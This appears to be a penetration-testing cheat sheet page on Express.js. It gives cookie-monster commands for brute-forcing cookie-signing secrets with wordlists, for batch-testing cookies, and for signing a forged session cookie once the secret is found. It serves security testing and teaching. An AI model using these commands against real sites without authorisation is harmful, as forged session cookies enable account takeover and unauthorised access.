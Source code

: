 # NodeJS Express

{{#include /src/banners/hacktricks-training.md}}

## Cookie Signature

The tool [https://github.com/DigitalInterruption/cookie-monster](https://github.com/DigitalInterruption/cookie-monster) is a utility for automating the testing and re-signing of Express.js cookie secrets.

### Single cookie with a specific name

```bash
cookie-monster -c eyJmb28iOiJiYXIifQ== -s LVMVxSNPdU_G8S3mkjlShUD78s4 -n session
```

### Custom wordlist

```bash
cookie-monster -c eyJmb28iOiJiYXIifQ== -s LVMVxSNPdU_G8S3mkjlShUD78s4 -w custom.lst
```

### Test multiple cookies using batch mode

```bash
cookie-monster -b -f cookies.json
```

### Test multiple cookies using batch mode with a custom wordlist

```bash
cookie-monster -b -f cookies.json -w custom.lst
```

### Encode and sign a new cookie

iI you know the secret you can sign a the cookie.

```bash
cookie-monster -e -f new_cookie.json -k secret
```


{{#include /src/banners/hacktricks-training.md}}

